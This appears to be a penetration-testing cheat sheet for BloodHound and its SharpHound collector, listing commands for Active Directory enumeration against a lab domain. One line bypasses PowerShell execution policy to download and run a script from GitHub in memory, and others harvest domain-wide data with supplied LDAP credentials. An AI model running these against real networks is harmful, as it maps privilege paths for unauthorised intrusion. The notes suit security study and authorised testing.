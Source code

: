 # Bloodhound

**Installation**: 

```text
apt install bloodhound  
neo4j console 
Go to http://127.0.0.1:7474, use db:bolt://localhost:7687, user:neo4J, pass:neo4j 
./bloodhound 
```

**Collection examples:** 

`Execute-assembly SharpHound.exe` 

`powershell -exec bypass -c IEX (iwr 'https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-Bloodhound -CollectionMethod all,loggedon` 

`SharpHound.exe (from resources/Ingestor)` 

`SharpHound.exe -c all -d active.htb --domaincontroller 10.10.10.100` 

`SharpHound.exe -c all -d active.htb --LdapUser myuser --LdapPass mypass --domaincontroller 10.10.10.100` 

  
 `SharpHound.exe -c all -d active.htb -SearchForest` 

`SharpHound.exe --EncryptZip --ZipFilename export.zip`   
   
`Invoke-BloodHound -SearchForest -CSVFolder C:\Users\Public` 

**Collection Linux:** 

[https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)

Guides and resources: 

[https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) 

[https://en.hackndo.com/bloodhound/](https://en.hackndo.com/bloodhound/) 

